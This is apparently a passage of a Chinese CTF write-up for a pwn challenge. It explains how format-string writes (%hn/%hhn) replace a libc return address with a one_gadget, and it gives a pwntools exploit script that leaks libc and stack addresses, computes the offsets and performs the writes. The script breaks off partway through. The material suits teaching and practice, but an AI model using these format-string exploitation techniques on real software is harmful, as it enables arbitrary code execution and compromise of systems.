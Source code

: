 用上面两步来对 i 的次数进行修改

```bash
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
```

这四步就是把 \_libc\_start\_main+240 修改成 one\_gadget

## exp

```bash
from pwn import *
context.log_level = 'debug'
context.arch="amd64"
p=process("./pwn")
#p=remote("node4.buuoj.cn",25309)
elf=ELF("./pwn")
libc=ELF('libc.so.6')

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#gdb.attach(p)

ru('Give me your name:')
s(b'a'*32)
ru('favourite food: ')
sl(b'%9$p-%11$p')#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#gdb.attach(p)
ru("0x")
libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240
leak('libc_base:',libc_base)
ogs=[0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[0]
leak('og ',og)
leak('(og>>16)&0xff',((og>>16)&0xff))
#leak('og')

ru("0x")
stack=int(r(12),16)
stack1=stack-224
leak('stack1 ',stack1)
leak('stack1&0xffff ',stack1&0xffff)
leak('(stack1+2)&0xffff',(stack1+2)&0xffff)
i_addr=stack-(0x7ffe373b3e18-0x7ffe373b3d10)+0x8+0xc
leak('i_addr',i_addr)
#gdb.attach(p)
sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')
```